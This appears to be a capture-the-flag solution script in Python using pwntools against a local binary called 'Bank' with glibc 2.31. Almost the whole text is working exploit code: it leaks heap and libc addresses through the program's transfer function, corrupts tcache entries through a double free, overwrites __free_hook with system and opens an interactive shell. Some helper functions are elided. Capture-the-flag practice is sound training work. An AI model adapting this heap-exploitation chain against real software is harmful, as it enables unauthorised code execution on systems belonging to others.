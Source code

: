 Here's the complete exploit code:

```python
from typing import Union, AnyStr, Tuple, Literal
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')

sh = process(['./Bank'])
libc = ELF('./libc-2.31.so')

Money = Union[AnyStr, int, float]

# Function to convert various data types to bytes
def to_bytes(content: Money):
    return content if isinstance(content, bytes) else str(content).encode()

# Implementing menu functions
def menu(index: Literal[0, 2, 3, 4, 5, 6]):
    choice = ['Quit', "", 'Deposit', "Transfer", "Put", "Login", "Info"]
    sh.recvuntil(b"Click: ")
    sh.sendline(choice[index].encode())

# Other functions for login, info, deposit, transfer, etc.
...

login('114514', '114514')
put(0x190)
cash = 0x190
while cash <= 1000000:
    deposit(cash)
    put(cash)
    cash += cash

transfer('ghost', 11, 0x100)
transfer('ghost', 11, 0xe0)
heap_addr = int(transfer('admin', 0x118/8), 16) - 0x10

transfer('guest', 6, p64(0x431).rjust(0x10, b'\x00'), False)
for _ in range(40):
    transfer('guest', 6, b'1')
transfer('hacker', 51, heap_addr+0x3c0)
malloc_hook_addr = int(transfer('admin', 0x120 / 8), 16) - 96 - 0x10
libc_base = malloc_hook_addr - libc.sym['__malloc_hook']
free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

for i in range(7):
    transfer('hacker', 51, heap_addr+0x3f0+i*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)
transfer('hacker', 51, heap_addr+0x3f0+8*0x20)
transfer('hacker', 51, heap_addr+0x3f0+7*0x20)

for _ in range(7):
    transfer('guest', 6, b'/bin/sh\x00')
transfer('guest', 6, p64(free_hook_addr-0x8).ljust(0x10, b'\x00'), False)
transfer('guest', 6, b'')
transfer('guest', 6, b'')
transfer('guest', 6, p64(system_addr).rjust(0x10, b'\x00'), False)
transfer('hacker', 51, heap_addr+0x3f0)

sh.interactive()
```


